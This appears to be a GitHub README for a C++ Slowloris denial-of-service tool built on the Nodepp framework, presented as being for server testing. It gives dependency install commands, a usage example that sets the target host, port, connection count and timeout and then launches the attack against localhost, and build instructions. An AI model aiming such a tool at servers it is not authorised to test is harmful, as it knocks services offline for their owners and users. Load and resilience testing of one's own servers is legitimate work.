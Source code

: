 # NODEPP-SLORY

A DDoS Slowloris algorithm using Nodepp for server testing.

## Dependencies
```bash
#Openssl
    🪟: pacman -S mingw-w64-ucrt-x86_64-openssl
    🐧: sudo apt install libssl-dev
```

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run
```bash
    🪟: g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main
    🐧: g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main
```
